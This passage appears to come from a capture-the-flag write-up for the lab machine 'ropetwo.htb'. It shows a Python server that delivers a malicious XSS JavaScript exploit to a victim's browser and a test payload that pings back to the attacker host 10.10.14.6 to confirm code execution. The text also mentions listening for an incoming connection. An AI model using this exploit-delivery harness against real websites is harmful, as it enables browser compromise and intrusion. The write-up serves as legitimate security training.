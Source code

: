 There is a few small supporting systems that we want to really make this happen. We want to automate triggering the XSS vulnerability, because we're hackers and doing things more than once isn't much fun. We will need a way of serving the malicious JavaScript to the victim when their browser requests it, and we will need an application listening for an incoming connection once the exploit was successful. We probably also want to verify that we have code execution reliably by sending a tiny reliable pingback payload first, so we know the victim is responding and our XSS worked correctly. Otherwise, we might spend hours debugging our (hopefully fully working) exploit only to realise it was never executing in the first place. 

This was built quickly in Python, as an all-in-one exploitation script. I won't paste the full script, but some interesting snippets. Here we have the code that handles incoming web requests. It could be easily adapted to serve different exploits to different browsers by checking the User Agent header, if we wished.

```python
WEB_SERVER_HOST = "10.10.14.6"
WEB_SERVER_PORT = 8000
TARGET = "ropetwo.htb:8000"

class myRequestHandler(SimpleHTTPRequestHandler):
    """
    Little handler to send a specific response to a specific request.
    """
    def do_GET(self):
        if self.path == "/exploit.js":
            with open("exploit.js", "r") as e:
                raw_exploit = e.read()

            print("[+] Loaded JS exploit from disk. Cleaning...")
            exploit = minimise_JavaScript(raw_exploit)
            self.send_response(200)
            self.send_header("Content-type", "script/javascript")
            self.send_header("Content-length", len(exploit))
            self.end_headers()
            self.wfile.write(exploit)
            print("[+] Got request for JavaScript file!")

        elif self.path == "/test.js":
            # Send code that requests the pingback.
            test_javascript = f"""var i = document.createElement("img"); i.src = "http://{WEB_SERVER_HOST}:{WEB_SERVER_PORT}/pingback";""".encode()
            self.send_response(200)
            self.send_header("Content-type", "script/javascript")
            self.send_header("Content-length", len(test_javascript))
            self.end_headers()
            self.wfile.write(test_javascript)

        elif self.path == "/pingback":
            response = b"ok!" # literally doesn't matter, we are not verifying it (yet).
            self.send_response(200)
            self.send_header("Content-length", len(response))
            self.end_headers()
            self.wfile.write(response)
            print("[+] Got JavaScript pingback! Successful code execution.")

        else:
            self.send_response(404)
            self.end_headers()
            self.wfile.write(b"404 Not Found")
```
